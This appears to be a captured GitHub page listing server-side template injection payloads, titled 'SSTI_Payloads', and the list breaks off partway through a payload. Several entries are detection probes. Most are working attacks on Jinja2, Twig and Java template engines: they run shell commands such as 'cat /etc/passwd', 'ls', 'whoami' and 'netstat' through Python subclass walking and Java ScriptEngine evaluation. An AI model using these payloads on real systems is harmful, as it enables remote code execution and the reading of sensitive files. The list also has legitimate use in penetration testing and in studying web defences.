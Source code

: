 # SSTI_Payloads 

${{<%[%'"}}%
${{7*7}}
${{3*'3'}}
<%= 3 * 3 %>
${6*6}
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{''.__class__.__base__.__subclasses__()}}
{{''.__class__.__base__.__subclasses__()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}
{{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.String('xxx')")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command("whoami"); x.start()")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command("netstat"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance

